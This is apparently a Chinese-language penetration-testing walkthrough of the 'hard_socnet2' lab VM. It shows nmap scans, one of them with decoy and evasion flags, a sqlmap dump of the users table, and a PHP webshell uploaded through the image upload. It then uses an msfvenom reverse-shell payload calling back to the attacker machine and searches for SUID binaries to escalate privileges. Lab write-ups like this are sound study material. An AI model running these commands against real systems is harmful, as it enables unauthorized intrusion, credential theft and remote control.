 >nmap --spoof-mac FF:FF:FF:FF:FF:FF --data-length 24 -T1 -f --mtu 16 -D RND -sS -sV -p 1-65535 -n -oA /root

```

┌──(root💀kali)-[/home/soyamilk/桌面/tools/frp]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:5a:99:73, IPv4: 192.168.159.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.159.2   00:50:56:fb:34:d2       VMware, Inc.
192.168.159.1   00:50:56:c0:00:08       VMware, Inc.
192.168.159.137 00:0c:29:44:e7:f6       VMware, Inc.
192.168.159.254 00:50:56:ef:44:30       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.988 seconds (128.77 hosts/sec). 4 responded
                                                                                                                                              
┌──(root💀kali)-[/home/soyamilk/桌面/tools/frp]
└─# nmap -T4 -p- 192.168.159.137
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-06 17:07 CST
Nmap scan report for 192.168.159.137
Host is up (0.0011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
MAC Address: 00:0C:29:44:E7:F6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
                                                                                                                                              
┌──(root💀kali)-[/home/soyamilk/桌面/tools/frp]
└─# nmap -T4 -p22,80,8000 -sV 192.168.159.137
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-06 17:07 CST
Nmap scan report for 192.168.159.137
Host is up (0.00045s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    BaseHTTPServer 0.3 (Python 2.7.15rc1)
MAC Address: 00:0C:29:44:E7:F6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.56 seconds
                                                                                                                                              
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# nmap -T4 -p22,80,8000 -A 192.168.159.137                                                                                            130 ⨯
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-21 16:22 CST
Nmap scan report for 192.168.159.137
Host is up (0.00051s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:d3:4e:54:fe:66:3e:f3:b2:a5:4b:51:9f:5f:f9:c6 (RSA)
|   256 de:86:ef:76:93:63:74:83:00:b1:a3:b8:c2:4c:8f:58 (ECDSA)
|_  256 b5:ec:f1:1e:9a:5a:5c:d7:02:3a:9e:1b:f7:c8:b4:53 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Social Network
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    BaseHTTPServer 0.3 (Python 2.7.15rc1)
|_http-server-header: BaseHTTP/0.3 Python/2.7.15rc1
MAC Address: 00:0C:29:44:E7:F6 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.159.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds


```

访问80，有登录框，考虑sql注入，注册一个号，登录进去，是php搭建的网站，扫一下后台，综合一下，用xray爬一下顺便扫一下sql注入

先登陆一下配置一下xray的Cookie，通过修改xray的配置文件config.yaml添加请求头Cookie

```
xray_windows_amd64.exe webscan --basic-crawler http://192.168.159.137/home.php --html-output b.html

xray_windows_amd64.exe webscan --browser-crawler http://192.168.159.
137/home.php --html-output a.html
```

![image-20240306173204076](5.hard_socnet2.assets/image-20240306173204076.png)

sqlmap跑一下

```
sqlmap.py -r url.txt --level 5 --risk 3 --threads 5 --dbs --tables --columns --dump --random-agent --tamper=between --flush-session --randomize=1

python sqlmap.py -r url.txt -D socialnetwork -T users --dump
```

跑出来账号密码，登陆一下

![image-20240321171057142](5.hard_socnet2.assets/image-20240321171057142.png)

登陆成功，分析页面

```
http://192.168.159.137/profile.php
可以上传头像

http://192.168.159.137/home.php
可以上传图片，发表文字
```

用dirsearch扫一下后台，带上管理员的cookie

![image-20240321171806269](5.hard_socnet2.assets/image-20240321171806269.png)

![image-20240321172109584](5.hard_socnet2.assets/image-20240321172109584.png)

在图片上传位置，可上传php马

![image-20240321172405954](5.hard_socnet2.assets/image-20240321172405954.png)

搞一个msf的马`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.159.128 LPORT=23333 -a x86 --platform Linux -f elf > shell.elf`

连上之后查看权限是www-data，查看suid能否提权

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20240321180330312](5.hard_socnet2.assets/image-20240321180330312.png)
